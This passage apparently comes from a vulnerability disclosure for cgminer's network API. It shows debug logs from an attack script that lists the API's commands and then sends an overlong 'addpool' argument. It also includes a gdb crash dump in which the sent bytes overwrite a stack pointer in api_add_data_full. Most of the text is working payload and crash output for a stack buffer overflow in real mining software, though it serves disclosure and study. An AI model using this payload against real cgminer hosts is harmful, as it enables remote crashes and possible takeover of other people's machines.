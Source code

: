 ```STATUS=E,When=1518898313,Code=14,Msg=Invalid command,Description=cgminer 4.9.0|\x00```
[cgminer.py -              sendRcv() ][   DEBUG] sendRcv: '{"parameter": "cpu", "command": "check"}\n'
[cgminer.py -    _get_capabilities() ][   DEBUG] response: 'cpu' {u'STATUS': [{u'STATUS': u'S', u'Msg': u'Check command', u'Code': 72, u'When': 1519337465, u'Description': u'cgminer 4.10.0'}], u'CHECK': [{u'Access': u'N', u'Exists': u'N'}], u'id': 1}

[cgminer.py -             <module>() ][    INFO] [+] Capabilities: ['version', 'asccount', 'disablepool', 'hotplug', 'estats', 'zero', 'usbstats', 'failover-only', 'notify', 'edevs', 'poolquota', 'addpool', 'check', 'devdetails', 'quit', 'stats', 'switchpool', 'setconfig', 'pgacount', 'save', 'config', 'privileged', 'debug', 'lcd', 'coin', 'restart', 'lockstats', 'pools', 'enablepool', 'summary', 'devs', 'removepool', 'poolpriority']

[cgminer.py -              sendRcv() ][   DEBUG] sendRcv: 'addpool|===...===\n'
[cgminer.py -             <module>() ][   ERROR] ValueError('need more than 1 value to unpack',)
[cgminer.py -             <module>() ][ WARNING] Remote host died :/
[cgminer.py -             <module>() ][    INFO] --done--

`

This causes a stack buffer overwrite resulting in a corrupted stack and subsequent crash of the application.

`
 [xxxx] API: connection from 192.168.2.106 - Accepted
 [xxxx] API: recv command: (8009) 'addpool|============================================================================================================================================================================================================================
addpool ===...===

Thread 71 "cg@API" received signal SIGSEGV, Segmentation fault.
[Switching to Thread 0x7ffff1cd9700 (LWP 40933)]
0x000055555558fb22 in api_add_data_full (root=0x5c3d5c3d5c3d5c3d, name=0x5555555b0907 "STATUS", type=API_STRING,
    data=0x7ffff1cd1750, copy_data=false) at api.c:887
887                     api_data->prev = root->prev;


(gdb) i r
rax            0x5c3d5c3d5c3d5c3d       6646570043679005757
rbx            0x57     87
rcx            0x535554 5461332
rdx            0x1      1
rsi            0x54415453       1413567571
rdi            0x7fffa4000c70   140735944854640
rbp            0x7ffff1cd16e0   0x7ffff1cd16e0
rsp            0x7ffff1cd15b0   0x7ffff1cd15b0
r8             0x0      0
r9             0x3e9b   16027
r10            0x7fffa4000c70   140735944854640
r11            0x7ffff1cd55ea   140737250153962
r12            0x0      0
r13            0x7fffffffc0ff   140737488339199
r14            0x7ffff1cd99c0   140737250171328
r15            0x7ffff1cd9700   140737250170624
rip            0x55555558fb22   0x55555558fb22 <api_add_data_full+184>
eflags         0x10202  [ IF RF ]
cs             0x33     51
ss             0x2b     43
ds             0x0      0
es             0x0      0
fs             0x0      0
gs             0x0      0

```